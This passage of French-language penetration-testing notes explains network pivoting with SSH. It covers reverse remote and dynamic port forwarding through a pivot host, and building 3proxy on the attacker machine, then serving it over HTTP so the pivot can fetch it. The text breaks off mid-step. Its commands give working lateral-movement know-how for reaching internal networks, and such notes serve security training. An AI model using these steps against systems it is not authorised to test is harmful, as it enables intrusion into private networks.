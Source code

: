     $ ssh user@ssh_server -R [bind_address:]remote_port:destination_host:destination_hostport
Cette commande rend accessible un service de hack à tout machine accedant à srv1.
Si on remplace l'adresse de hack, par l'adresse de srv1, il s'expose ainsi au réseau de l'entreprise.

La subtilité ici est de lancer cette commande sur le pivot srv1, d'où le **reverse** remote port forwarding. Ce qui permettra d'accéder à srv2 depuis srv1.

    $ sudo systemctl start sshd // il faut démarrer le serveur en local sur hack pour que srv1 s'y connecte
    $ sudo useradd sshpivot --no-create-home --shell /bin/false // on créé le seul utilisateur habilité à s'y connecté par sécurité
    $ sudo passwd sshpivot // note:/bin/false doit être ajouté dans /etc/shells sinon la connexion est refusé

    $ ssh user@10.0.0.10 // connexion au pivot, puis:
    $ ssh sshpivot@10.0.0.2 -R 127.0.0.1:14000:10.0.0.2:80 -N
Explication:
* depuis le serveur pivot, connexion à la machine attaquant avec le seul user autorisé
* `-R` permet de transferer le trafic du port distant 
* lorsque le port 14000 de srv1 est requêté depuis la machine hack, le trafic est redirigé vers le srv2

### SSH dynamic port forwarding
Les connexions de divers services seront transférées via le client SSH puis via le serveur SSH et, finalement, vers plusieurs machines de destination.

Il faut ouvrir un port sur le pivot, SSH va écouter sur se port pour ensuite fonctionner comme un proxy SOCKS.

    $ ssh user@ssh_server -D [bind_address:]local_port // configurer SSH comme serveur proxy
    $ ssh user@10.0.0.10 -D 127.0.0.1:12000 -N // Connexion au serveur 
L'utilisateur peut don requêter tous les réseaux accessibles par srv1 via le proxy, en adressant le port 12000 de hack. Exemple:

    $ curl --head http://192.168.1.2 --proxy socks5://127.0.0.1:12000
Permet de récupérer les infos du serveur tournant sur srv2 depuis hack

### SSH reverse remote port forwarding + proxy socks
Permet de résoudre le problème de devoir ouvrir les ports un par un en reverse remote port forwarding. Pour cela il faut binder un serveur proxy sur le pivor à la place de la cible.

Pour se faire, un proxy doit être déployer sur le pivot. Il existe par exemple `proxychains` et `proxychains-ng` mais nous allons utilisé `3proxy` qui à l'avantage d'être portable.

Sur la machine, hack, on compile le proxy:

    $ git clone https://github.com/z3APA3A/3proxy.git
    $ cd 3proxy
    $ make -f Makefile.Linux

On créé un serveur http sur hack pour le rendre accessible:

    $ python -m http.server -d bin --bind 10.0.0.10 8080

Puis sur le pivot srv1, on récupère le proxy, et on le lance sur le port 10080:
